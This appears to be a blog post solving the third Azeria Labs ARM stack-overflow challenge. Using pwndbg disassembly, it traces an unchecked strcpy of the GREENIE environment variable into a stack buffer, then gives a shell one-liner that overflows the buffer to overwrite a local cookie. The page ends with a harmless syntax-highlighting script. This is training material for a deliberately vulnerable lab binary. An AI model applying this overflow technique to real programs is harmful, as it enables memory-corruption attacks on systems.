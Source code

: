 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part III"
---
```


Another fast moving post
about exploiting the [third Arm challenge](https://github.com/azeria-labs/ARM-challenges)<!--more-->


## Setup

Stack allocation, not changes respect `stack0` or `stack1`.

```nasm
pwndbg> pdisass &main
 ► 0x104e4 <main>       push   {fp, lr}
   0x104e8 <main+4>     add    fp, sp, #4
   0x104ec <main+8>     sub    sp, sp, #0x50
   0x104f0 <main+12>    str    r0, [fp, #-0x50]
   0x104f4 <main+16>    str    r1, [fp, #-0x54]
```

Read of an environment variable named `"GREENIE"`:

```nasm
   0x104f8 <main+20>    ldr    r0, [pc, #0x6c]
   0x104fc <main+24>    bl     #getenv@plt <getenv@plt>

pwndbg> x/1wx 0x1056c
0x1056c <main+136>:     0x000105f4

pwndbg> x/1sb 0x000105f4
0x105f4:        "GREENIE"
```

The value is stored in the stack, loaded from it and
then compared with 0. In other words the program checks if `getenv`
returned `NULL` or not.

```nasm
   0x10500 <main+28>    str    r0, [fp, #-8]
   0x10504 <main+32>    ldr    r3, [fp, #-8]
   0x10508 <main+36>    cmp    r3, #0
   0x1050c <main+40>    bne    #main+56 <main+56>
```

## The vulnerability

Following the *taken* branch we find the vulnerable `strcpy` call
that copies the content of the environment variable into a buffer in the
stack.

```nasm
 ► 0x1051c <main+56>    mov    r3, #0
   0x10520 <main+60>    str    r3, [fp, #-0xc]
   0x10524 <main+64>    sub    r3, fp, #0x4c
   0x10528 <main+68>    mov    r0, r3
   0x1052c <main+72>    ldr    r1, [fp, #-8]
   0x10530 <main+76>    bl     #strcpy@plt <strcpy@plt>
```

This is the memory layout of the stack before the call to `strcpy`:

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == char **argv
        |   \xdd\xdd\xdd\xdd   == int argc
buf ----|-->AAAA
  0x50  |   BBBB
        |   CCCC
        |   ... 13 more rows full of garbage ...
cookie----->\x00\x00\x00\x00   == explicit 0 set
ptr env-|-->\xcc\xcc\xcc\xcc   == char *env_var
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

After the call the cookie is checked against 0x0d0a0d0a:

```nasm
   0x10534 <main+80>    ldr    r3, [fp, #-0xc]
   0x10538 <main+84>    ldr    r2, [pc, #0x34]
   0x1053c <main+88>    cmp    r3, r2
   0x10540 <main+92>    bne    #main+108 <main+108>

pwndbg> x/1wx 0x10574
0x10574 <main+144>:     0x0d0a0d0a
```

Following the path if the branch is **not** taken:

```nasm
pwndbg> pdisass &main+96
 ► 0x10544 <main+96>     ldr    r0, [pc, #0x2c]
   0x10548 <main+100>    bl     #puts@plt <puts@plt>

   0x1054c <main+104>    b      #main+124 <main+124>

pwndbg> x/1wx 0x10578
0x10578 <main+148>:     0x0001062c

pwndbg> x/1sb 0x0001062c
0x1062c:        "you have correctly modified the variable"
```

## The solution

To win we need 0x40 bytes for padding and the cookie `"\n\r\n\r"`.

```shell
pi@raspberrypi:~$ GREENIE="$(echo -en 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\r\n\r')" ./stack2
you have correctly modified the variable
```

<!-- stuff -->

<script>
function fix_asm_syntax(ev) {
    // pip install selectq
    //   cond = (val('text()') == 'blt') | (val('text()') == 'b') | (val('text()').startswith('mov')) | ...
    //   div = sQ.select('div', attr('class').contains('language-nasm'))
    //   xpath = div.select('span', cond)

    // Make some instructions "keywords"
    var xpath = ".//div[contains(@class,'language-nasm')]//span[(((text() = 'blt') or (text() = 'b')) or starts-with(text(), 'mov')) or starts-with(text(), 'ldm') or starts-with(text(), 'stm') or starts-with(text(), 'ldr') or starts-with(text(), 'bx') or starts-with(text(), 'bl') or starts-with(text(), 'bne') or starts-with(text(), 'mvn')]";
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.add('k'); // keyword
        el.classList.remove('n'); // noun
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-nasm')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-python')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }
}

document.addEventListener('DOMContentLoaded', fix_asm_syntax);
</script>
